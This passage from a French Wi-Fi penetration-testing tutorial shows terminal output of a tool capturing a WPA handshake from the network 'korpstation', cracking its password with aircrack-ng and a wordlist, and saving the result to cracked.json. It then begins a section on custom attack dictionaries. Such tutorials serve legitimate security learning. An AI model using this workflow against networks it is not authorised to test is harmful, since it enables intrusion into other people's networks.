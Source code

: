 ```bash
 [+] (1/1) Starting attacks against 4C:11:54:AA:4F:54 (korpstation)
 [+] korpstation (44db) PMKID CAPTURE: Failed to capture PMKID   
 
 [+] korpstation (49db) WPA Handshake capture: Discovered new client: A6:55:4E:27:25:BD                                                                                                              
 [+] korpstation (48db) WPA Handshake capture: Captured handshake                                                                                                                                    
 [+] saving copy of handshake to hs/handshake_korpstation_4C-11-54-AA-4F-54_2024-12-18T13-42-58.cap saved

 [+] analysis of captured handshake file:
 [+]   tshark: .cap file contains a valid handshake for (4c:11:54:aa:4f:54)
 [+] aircrack: .cap file contains a valid handshake for (4C:11:54:AA:4F:54)

 [+] Cracking WPA Handshake: Running aircrack-ng with wordlist-probable.txt wordlist
 [+] Cracking WPA Handshake: 0.50% ETA: 48s @ 4222.1kps (current key: 321654987)                                                                                                                     
 [+] Cracked WPA Handshake PSK: 321654987

 [+]   Access Point Name: korpstation
 [+]  Access Point BSSID: 4C:11:54:AA:4F:54
 [+]          Encryption: WPA
 [+]      Handshake File: hs/handshake_korpstation_4C-11-54-AA-4F-54_2024-12-18T13-42-58.cap
 [+]      PSK (password): 321654987
 [+] saved crack result to cracked.json (1 total)
 [+] Finished attacking 1 target(s), exiting

```
> Après quelques instants il a réussi à trouver le mot de passe. Le résultat de l'attaque est enregistré dans un fichier cracked.json dans le repertoie courant.

```yaml
┌──(korpstation㉿mrhove)-[~]
└─$ cat cracked.json                   
[
  {
    "type": "WPA",
    "date": 1734525779,
    "essid": "korpstation",
    "bssid": "4C:11:54:AA:4F:54",
    "key": "321654987",
    "handshake_file": "hs/handshake_korpstation_4C-11-54-AA-4F-54_2024-12-18T13-42-58.cap"
  }
]
```

# 📚 PERSONNALISATION DU DICTIONNAIRE D'ATTAQUE

## 🎯 Importance du Dictionnaire Personnalisé
> "Un dictionnaire personnalisé augmente considérablement les chances de succès."
